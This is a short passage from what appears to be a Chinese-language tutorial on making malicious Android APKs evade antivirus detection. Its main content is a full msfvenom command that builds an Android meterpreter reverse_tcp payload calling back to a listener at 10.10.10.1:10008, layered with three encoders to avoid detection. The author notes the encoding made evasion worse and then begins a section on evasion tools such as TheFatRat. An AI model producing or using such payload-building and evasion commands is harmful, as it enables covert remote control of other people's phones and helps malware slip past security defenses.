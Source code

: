 [![](assets/1701606948-dd42efc2aa8fa6942f460fc73b1411c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102213-a8c1f180-664a-1.png)  
  
使用多重编码，增大免杀概率

```bash
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -a dalvik --encoder x86/call4_dword_xor --iterations 5 --encoder x86/countdown --iterations 4 --encoder x86/shikata_ga_nai --iterations 3 -o encoded.apk
```

这里用到了 x86/call4\_dword\_xor，x86/countdown，x86/shikata\_ga\_nai 三个编码器  
  
[![](assets/1701606948-f86a09e3047a369ec0ae34eb1369ad9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102226-b05d48ea-664a-1.png)  
  
没想到免杀效果反而变弱了，只能说是有的编码器特征已经被记录在了检测引擎里面，只要用了就会被检测到

## 工具免杀

> APK 免杀的工具好像比较少

### Thefatrat
